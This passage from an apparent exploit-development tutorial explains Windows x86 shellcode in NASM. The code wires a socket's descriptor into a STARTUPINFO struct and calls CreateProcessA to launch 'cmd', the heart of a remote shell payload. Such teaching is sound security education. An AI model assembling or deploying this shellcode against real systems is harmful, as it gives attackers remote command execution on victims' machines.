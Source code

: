 ```nasm
; set up the STARTUPINFO struct
push edi
push edi
push edi                    ; we just put our SOCKET_FD into the arg params for HANDLE hStdInput; HANDLE hStdOutput; and HANDLE hStdError;
xor ebx, ebx
xor ecx, ecx
add cl, 0x12                ; we're going to throw 0x00000000 onto the stack 18 times, this will fill up both the STARTUPINFO and PROCESS_INFORMATION structs
                            ; then we will retroactively fill them up with the arguments we need by using effective addressing relative to ESP like mov word [esp +]

looper: 
push ebx
loop looper
```

What we've done here, is `push edi` three times to put our socket file descriptor into the struct members `si.hStdInput`, `si.hStdOutput`,  and `si.hStdError`. 

Next we load our counter register ECX up with an `0x12` value so we can loop through pushing NULLs onto the stack. This will fill up the first of the `STARTUPINFO` struct with NULLs, and also fille the entire `PROCESS_INFO` struct with NULLs. It's ok that `PROCESS_INFO` gets filled with NULLs since it doesn't need any members initialized if you look at the prototype. However, there are still some members left in `STARTUPINFO` we need to initialize.

Since the stack grows downwards in address space, we can retroactively fill `STARTUPINFO` with values by doing something like `mov word [esp + offset], value`. This says, put into the `WORD`-sized value held at the ESP + offset address this value. Let's do that now. 

```nasm
mov word [esp + 0x3c], 0x0101        ; set dwFlags arg in STARTUPINFO
mov byte [esp + 0x10], 0x44          ; cb member of the struct set to 68 decimal, size of struct
lea eax, [esp + 0x10]                ; eax now a pointer to STARTUPINFO
```

These arguments complete our `STARTUPINFO` struct. The `PROCESS_INFO` struct was just filled with NULLs so it also complete. EAX now holds a pointer to the `STARTUPINFO` struct, and ESP holds a pointer to the `PROCESS_INFO` struct. 

```nasm
; Actually Calling CreateProcessA now
push esp                             ; pointer to PROCESS_INFORMATION
push eax                             ; pointer to STARTUPINFO
push ebx                             ; all NULLs
push ebx
push ebx
inc ebx                              ; bInheritHandles == True
push ebx
dec ebx
push ebx
push ebx
push edx                             ; pointer to 'cmd' 
push ebx
call dword [esi + 0xc]
```
